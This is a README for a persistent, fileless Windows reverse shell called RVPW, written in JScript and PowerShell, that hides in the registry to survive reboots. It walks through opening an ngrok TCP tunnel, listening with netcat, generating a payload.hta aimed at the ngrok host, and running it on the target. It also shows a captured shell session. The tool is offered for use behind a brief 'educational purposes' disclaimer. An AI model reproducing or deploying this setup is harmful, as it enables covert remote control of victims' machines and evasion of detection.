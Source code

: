 # RVPW - misk0zz

# Reverse Shell Persistent Windows (RVPW) persistent reverse shell for windows
This is a fileless RVPW reverse shell written in JScript and Powershell script. It runs every time the windows boots and relies solely on windows registry and environment variables to execute without creating any files on the system<br>

Disclaimer: this program is only for educational purposes

This repository is in the process of being updated with improvements in the script, if you have any suggestions or help do not hesitate to let me know at the following email: misk0z@proton.me

## Reverse shell
In this case I'm using ngrok to make a tcp tunnel:
```
ngrok tcp 3333
```
then we run netcat to listen on port 3333
```
nc -nvlp 3333
```
### creating payload 
Now we can create out payload with our ngrok tunnel's domain and port 
```
python3 generador.py 8.tcp.ngrok.io 18053 payload.hta
```
all you have to do now is to run payload.hta in your windows machine and you get a reverse shell
```
┌─[kali@kali]─[~]
└──╼ $nc -nvlp 3333
listening on [any] 3333 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 50662
> echo hello
hello
> 
```
this reverse shell is persistent meaning every time you boot the windows the payload will execute
